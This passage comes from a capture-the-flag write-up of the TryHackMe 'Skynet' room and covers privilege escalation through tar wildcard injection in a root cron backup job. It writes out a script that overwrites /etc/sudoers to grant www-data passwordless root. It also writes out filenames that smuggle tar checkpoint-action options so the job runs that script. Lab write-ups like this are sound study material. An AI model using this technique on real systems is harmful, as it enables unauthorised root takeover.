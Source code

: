 #### php

![IMAGE](https://github.com/definitelynotrafa/THM-writeups/raw/main/assets/rooms/Skynet/35.png)

---
#### popularity-contest

![IMAGE](https://github.com/definitelynotrafa/THM-writeups/raw/main/assets/rooms/Skynet/36.png)

---


The last entry looks interesting! The backup script runs as root every minute using `tar`.

**Time to abuse tar wildcard injection!**

First, move to `/var/www/html` where we have proper human permissions:

```bash
cd /var/www/html
```

Create our malicious script:

```bash
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > binhoberde.sh
```

This creates a script that will give `www-data` sudo privileges without a password.

Now create the wildcard files that tar will interpret as command-line options:

```bash
echo "/var/www/html" > "--checkpoint-action=exec=sh binhoberde.sh"
echo "/var/www/html" > --checkpoint=1
```

These filenames literally mimic tar options. When tar processes wildcards, it will execute our script!
